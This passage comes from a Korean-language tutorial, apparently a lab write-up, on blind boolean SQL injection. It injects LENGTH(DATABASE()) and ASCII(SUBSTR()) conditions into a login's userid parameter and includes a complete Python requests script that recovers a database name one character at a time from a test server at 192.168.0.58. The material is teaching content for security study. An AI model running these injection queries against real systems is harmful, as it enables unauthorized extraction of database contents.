결과는 다음과 같다.

	USER : root@localhost

## **데이터베이스 이름 확인**

참과 거짓의 결과 정보를 이용하여 데이터베이스의 이름을 획득해보자.

다음과 같이 데이터베이스의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH(DATABASE())={i}#')
```

쿼리의 결과가 참일 경우 데이터베이스의 이름의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if REQUEST.text == 'Welcome test':
	RESULT_LENGTH = i
	break
```

데이터베이스의 이름을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(DATABASE(),{i+1},1))={ord(s)}#')
```

마찬가지로 쿼리의 결과가 참일 경우 데이터베이스의 이름의 문자열 일부를 알 수 있다.

다음의 Full Code로 데이터베이스의 이름을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND LENGTH(DATABASE())={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'DATABASE LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(DATABASE(),{i+1},1))={ord(s)}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': RESULT += s
print(f'DATABASE : {RESULT}')
```
